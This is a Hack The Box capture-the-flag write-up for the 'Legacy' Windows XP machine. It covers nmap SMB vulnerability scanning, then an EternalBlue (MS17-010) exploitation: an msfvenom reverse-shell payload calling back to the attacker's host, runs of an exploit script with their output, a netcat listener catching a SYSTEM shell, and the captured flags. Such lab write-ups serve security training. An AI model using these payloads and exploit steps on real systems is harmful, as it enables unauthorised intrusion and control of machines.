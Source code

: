 ```yaml
---
layout: single
title: Legacy - Hack The Box
excerpt: "N/A"
date: 2019-04-14
classes: wide
header:
  teaser: /assets/images/htb-writeup-legacy/legacy_logo.png
  teaser_home_page: true
  icon: /assets/images/windows.png
  unreleased: false
categories:
  - hackthebox
tags:  
  - windows
  - smb
  - ms17-010
  - eternalblue
---
```


![](/assets/images/htb-writeup-legacy/legacy_logo.png){: style="float: right; width: 200px; margin-left: 2em"}

N/A<br><br><br><br><br><br><br>

----------------

# User
## Enumeration

```bash
[root:/git/htb]# nmap -Pn -n -sCV 10.10.10.4 --open                                                                               (master✱)
  PORT    STATE SERVICE      VERSION
  139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
  445/tcp open  microsoft-ds Windows XP microsoft-ds
  Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

  Host script results:
  |_clock-skew: mean: 5d01h01m15s, deviation: 1h24m50s, median: 5d00h01m15s
  |_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:11:0b (VMware)
  | smb-os-discovery:
  |   OS: Windows XP (Windows 2000 LAN Manager)
  |   OS CPE: cpe:/o:microsoft:windows_xp::-
  |   Computer name: legacy
  |   NetBIOS computer name: LEGACY\x00
  |   Workgroup: HTB\x00
  |_  System time: 2021-03-01T12:38:45+02:00
  | smb-security-mode:
  |   account_used: <blank>
  |   authentication_level: user
  |   challenge_response: supported
  |_  message_signing: disabled (dangerous, but default)
  |_smb2-time: Protocol negotiation failed (SMB2)


[root:/git/htb]# nmap -p139,445 --script vuln 10.10.10.4                                                                          (master✱)
  PORT    STATE SERVICE
  139/tcp open  netbios-ssn
  445/tcp open  microsoft-ds

  Host script results:
  |_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
  | smb-vuln-ms08-067:
  |   VULNERABLE:
  |   Microsoft Windows system vulnerable to remote code execution (MS08-067)
  |     State: LIKELY VULNERABLE
  |     IDs:  CVE:CVE-2008-4250
  |           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
  |           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
  |           code via a crafted RPC request that triggers the overflow during path canonicalization.
  |
  |     Disclosure date: 2008-10-23
  |     References:
  |       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
  |_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
  |_smb-vuln-ms10-054: false
  |_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
  | smb-vuln-ms17-010:
  |   VULNERABLE:
  |   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
  |     State: VULNERABLE
  |     IDs:  CVE:CVE-2017-0143
  |     Risk factor: HIGH
  |       A critical remote code execution vulnerability exists in Microsoft SMBv1
  |        servers (ms17-010).
  |
  |     Disclosure date: 2017-03-14
  |     References:
  |       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
  |       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
  |_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
```

**MS17-010** EternalBlue is the obvious attack path here, lets exploit it.

**a)** Download the script [**`send_and_execute.py`**](https://github.com/helviojunior/MS17-010)<br>
**b)** Create your malicious payload:<br>
    `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.10 LPORT=4488 EXITFUNC=thread -f exe -a x86 --platform windows -o ms17-010.exe`

**c)** Execute!
```bash
[root:/git/htb/legacy]# python send_and_execute.py 10.10.14.10 ms17-010.exe                                                       (master✱)
  Traceback (most recent call last):
    File "send_and_execute.py", line 2, in <module>
      from impacket import smb, smbconnection
  ImportError: No module named impacket
```

**d)** If you get the error like above, it's because your python2 version is to new.<br>
: **d1)** uninstall pip3: `sudo apt-get remove python3-pip`<br>
  **d2)** Get pip3 installer: `curl https://bootstrap.pypa.io/get-pip.py -o get-pip.py`<br>
  **d3)** Install pip3: `python3 get-pip.py`<br>
  **d4)** Get pip2 installer: `curl https://bootstrap.pypa.io/2.7/get-pip.py -o get-pip.py`<br>
  **d5)** Install pip2: `python get-pip.py`<br>
  **d6)** Now you can install any pip2 modules: `pip install impacket`<br>
  **d7)** Make sure your python and python-pip are compatible. Python version 2.7.18 and pip 20.3.4 is preffered.<br>

```bash
[root:/git/htb/legacy]# python -m pip -V                                                                                          (master✱)
  pip 20.3.4 from /usr/local/lib/python2.7/dist-packages/pip (python 2.7)

[root:/git/htb/legacy]# python -V                                                                                                 (master✱)
  Python 2.7.18
```

**e)** EXECUTE EXPLOIT AGAIN!
```bash
[root:/git/htb/legacy]# python send_and_execute.py 10.10.10.4 ms17-010.exe                                                        (master✱)
  Trying to connect to 10.10.10.4:445
  Traceback (most recent call last):
    File "send_and_execute.py", line 1077, in <module>
      exploit(target, port, pipe_name)
    File "send_and_execute.py", line 794, in exploit
      conn = MYSMB(target, port)
    File "/git/htb/legacy/mysmb.py", line 118, in __init__
      smb.SMB.__init__(self, remote_host, remote_host, timeout=timeout)
    File "/usr/local/lib/python2.7/dist-packages/impacket/smb.py", line 2434, in __init__
      self._sess = nmb.NetBIOSTCPSession(my_name, remote_name, remote_host, host_type, sess_port, self.__timeout)
    File "/usr/local/lib/python2.7/dist-packages/impacket/nmb.py", line 893, in __init__
      timeout=timeout, local_type=local_type, sock=sock)
    File "/usr/local/lib/python2.7/dist-packages/impacket/nmb.py", line 752, in __init__
      self._sock = self._setup_connection((remote_host, sess_port), timeout)
    File "/usr/local/lib/python2.7/dist-packages/impacket/nmb.py", line 904, in _setup_connection
      raise socket.error("Connection error (%s:%s)" % (peer[0], peer[1]), e)
  socket.error: [Errno Connection error (10.10.10.4:445)] timed out
```

**f)** If above happens, reboot the box and execute a third time.
```bash
[root:/git/htb/legacy]# python send_and_execute.py 10.10.10.4 ms17-010.exe                                                        (master✱)
  Trying to connect to 10.10.10.4:445
  Target OS: Windows 5.1
  Using named pipe: browser
  Groom packets
  attempt controlling next transaction on x86
  success controlling one transaction
  modify parameter count to 0xffffffff to be able to write backward
  leak next transaction
  CONNECTION: 0x82208430
  SESSION: 0xe1a57430
  FLINK: 0x7bd48
  InData: 0x7ae28
  MID: 0xa
  TRANS1: 0x78b50
  TRANS2: 0x7ac90
  modify transaction struct for arbitrary read/write
  make this SMB session to be SYSTEM
  current TOKEN addr: 0xe2116d30
  userAndGroupCount: 0x3
  userAndGroupsAddr: 0xe2116dd0
  overwriting token UserAndGroups
  Sending file KCC2VY.exe...
  Opening SVCManager on 10.10.10.4.....
  Creating service vteS.....
  Starting service vteS.....
  The NETBIOS connection with the remote host timed out.
  Removing service vteS.....
  ServiceExec Error on: 10.10.10.4
  nca_s_proto_error
  Done
```
```bash
    [root:/opt/impacket]# nc -lvnp 4488                                                                                                (master)
      listening on [any] 4488 ...
      connect to [10.10.14.10] from (UNKNOWN) [10.10.10.4] 1031
      Microsoft Windows XP [Version 5.1.2600]
      (C) Copyright 1985-2001 Microsoft Corp.

      C:\WINDOWS\system32>

      C:\Documents and Settings\john\Desktop>type user.txt
        e69af0e4f443de7e36876fda4ec7644f

      C:\Documents and Settings\Administrator\Desktop>type root.txt
        993442d258b0e0ec917cae9e695d5713
```

# References
- [mysmb.py](https://github.com/worawit/MS17-010/blob/master/mysmb.py)
- [no module named impacket fix](https://webcache.googleusercontent.com/search?q=cache:w_5LbLWkSMwJ:https://stackoverflow.com/questions/66087250/fix-for-kali-impacket-issues-between-python-2-and-3-2020-4+&cd=4&hl=sv&ct=clnk&gl=se)
  